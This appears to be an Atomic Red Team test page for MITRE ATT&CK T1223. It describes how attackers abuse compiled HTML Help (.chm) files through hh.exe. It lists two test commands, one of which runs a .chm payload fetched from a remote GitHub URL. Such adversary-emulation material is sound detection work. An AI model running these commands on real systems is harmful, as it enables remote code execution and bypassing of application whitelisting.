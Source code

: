# T1223 - Compiled HTML File
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)
<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)

Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be delivered to a victim then triggered by [User Execution](https://attack.mitre.org/techniques/T1204). CHM execution may also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Compiled HTML Help Local Payload](#atomic-test-1---compiled-html-help-local-payload)

- [Atomic Test #2 - Compiled HTML Help Remote Payload](#atomic-test-2---compiled-html-help-remote-payload)


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder\T1223\src\T1223.chm|


#### Attack Commands: Run with `command_prompt`! 
```
hh.exe #{local_chm_file}
```






<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/arnoldmw/thremulate/master/art/atomics/T1223/src/T1223.chm|


#### Attack Commands: Run with `command_prompt`! 
```
hh.exe #{remote_chm_file}
```






<br/>

